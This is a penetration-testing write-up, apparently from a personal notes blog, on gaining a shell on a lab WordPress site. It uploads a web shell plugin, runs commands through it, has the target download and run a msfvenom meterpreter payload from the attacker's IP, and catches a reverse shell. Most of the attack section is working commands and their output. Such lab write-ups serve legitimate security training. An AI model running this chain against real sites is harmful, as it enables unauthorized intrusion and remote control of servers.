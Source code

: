 ```yaml
---
description: >-
  Wordpress Loading Plugin Shell
title:  Wordpress Loading Plugin Shell             # Add title here
date: 2022-12-10 08:00:00 -0600                           # Change the date to match completion date
categories: [06 Exploitation, Wordpress Loading Plugin Shell]                     # Change Templates to Writeup
tags: [exploitation, wordpress, plugin shell]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```

### Obtaining a Shell

To obtain a shell, we first must package the plugin in a way that WordPress knows how to handle. WordPress expects plugins to be in a zip file. When WordPress receives the zip file, it will extract it into the wp-content/plugins directory on the server. WordPress places the contents of the zip file into a folder that matches the name of the zip file itself. Because of this, we will need to make note of the name of the file in order to be able to access our PHP shell later on.

```bash
kali@kali:~$ cd /usr/share/seclists/Web-Shells/WordPress

kali@kali:/usr/share/seclists/Web-Shells/WordPress$ sudo zip plugin-shell.zip plugin-shell.php 
  adding: plugin-shell.php (deflated 58%)
```

The generated zip file is named plugin-shell.zip and will be placed in the plugin-shell folder within wp-content/plugins on the server.

Now that the plugin package is generated, it's time to upload the shell. First, we need to visit the Plugins page by clicking the _Plugins_ link on the left sidebar.

![Description](/assets/img/Pasted-image-20221210223118.png)

Next, we install the plugin by clicking _Add New_ at the top left. This will take us to the "Add Plugins" page.

![Description](/assets/img/Pasted-image-20221210223158.png)

Since we are not downloading a plugin from the WordPress plugin directory, we need to select _Upload Plugin_ at the top left of the page.

![Description](/assets/img/Pasted-image-20221210223247.png)

This will open up a section where we can select our plugin package. We need to select _Browse_, which will open up a file dialog for us to find the created package.

![Description](/assets/img/Pasted-image-20221210223323.png)

With the file dialog open, we navigate to the directory containing our plugin, select the plugin-shell.zip file, and click _Open_ at the bottom of the file dialog.

Finally, to install the plugin, we click _Install Now_.

![Description](/assets/img/Pasted-image-20221210223355.png)

Installing the plugin will upload the zip and extract the contents.

Now that the plugin is installed, we can attempt to use it to run system commands on the WordPress target. For this, we can simply use _cURL_. As discussed earlier, the directory for the plugin is wp-content/plugins/, the zip will be extracted into a directory named plugin-shell, and the file that we are targeting is named plugin-shell.php.

Remember that we must also set a _cmd_ parameter containing the command we are attempting to execute on the target system. Let's attempt to run whoami and see if the shell worked.

```bash
kali@kali:~$ curl http://sandbox.local/wp-content/plugins/plugin-shell/plugin-shell.php?cmd=whoami
www-data
```

It worked! We are running commands as the www-data user. Now it's time to upload a meterpreter payload and obtain a full reverse shell.

First let's generate a meterpreter payload with the msfvenom utility.

```bash
kali@kali:~$ msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.11.0.4 LPORT=443 -f elf > shell.elf
```

We are selecting the Linux reverse TCP meterpreter payload since we know that the target is running on Ubuntu from our previous enumeration efforts. The LHOST option will point to our Kali IP address and we are selecting an LPORT of 443 in an attempt to evade any outbound firewall rules. While it's good practice to always check for any egress filtering, in this case we will make the assumption that port 443 is unrestricted. We are generating the payload as an _elf_ file and redirecting the output to a file named shell.elf in the kali user home directory.

With the meterpreter reverse shell generated, we start a web server to allow the target to download the shell.

```bash
kali@kali:~$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 ...
```

The webserver is using the Python _http.server_ module, is instructed to use port 80, and is serving files from the kali user home directory. We chose port 80 again to avoid any potential issues we might run into if there is a firewall blocking arbitrary outbound ports.

With the shell generated and the web server running, we will instruct the target to download the shell. We will use wget from the target to download the shell from our Kali system. However, we must encode any space characters with "%20" since we cannot use spaces in URLs. The command we are running is shown below.

```bash
kali@kali:~$ curl http://sandbox.local/wp-content/plugins/plugin-shell/plugin-shell.php?cmd=wget%20http://10.11.0.4/shell.elf
```

If the command worked, we should see an entry similar to the following in our Python webserver's log.

```bash
Serving HTTP on 0.0.0.0 port 80 ...
10.11.1.250 - - [09/Dec/2019 19:40:16] "GET /shell.elf HTTP/1.1" 200 -
```

Success! Next we need to make the shell executable, start a Metasploit payload handler on Kali, and run the _elf_ file on the target to acquire a meterpreter shell. To make the shell executable, we will run chmod +x on it. Once again, we need to remember to urlencode sensitive characters such as space (%20) and "+" (%2b). The command to make the shell executable is displayed in Listing 31.

```bash
kali@kali:~$ curl http://sandbox.local/wp-content/plugins/plugin-shell/plugin-shell.php?cmd=chmod%20%2bx%20shell.elf
```

At this point, the shell should be executable. Next, we will start a meterpreter payload listener on the appropriate interface and port.

```bash
kali@kali:~$ sudo msfconsole -q -x "use exploit/multi/handler;\
>              set PAYLOAD linux/x86/meterpreter/reverse_tcp;\
>              set LHOST 10.11.0.4;\
>              set LPORT 443;\
>              run"
PAYLOAD => linux/x86/meterpreter/reverse_tcp
LHOST => 10.11.0.4
LPORT => 443
[*] Started reverse TCP handler on 10.11.0.4:443 
```

In the msfconsole command above, we are having Metasploit start quietly (-q) and immediately configure the payload handler via the -x option, passing the same payload settings we used when generating the shell.

With our listener running, it's finally time to obtain a reverse shell. This can be done by executing the shell.elf file via the malicious WordPress plugin we installed previously.

```bash
kali@kali:~$ curl http://sandbox.local/wp-content/plugins/plugin-shell/plugin-shell.php?cmd=./shell.elf
```

Returning to our listener, we should see that we have captured a shell.

```bash
[*] Sending stage (985320 bytes) to 10.11.1.250
[*] Meterpreter session 1 opened (10.11.0.4:443 -> 10.11.1.250:53768) at 19:54:41

meterpreter > shell
Process 9629 created.
Channel 1 created.

whoami
www-data

exit
meterpreter > 
```
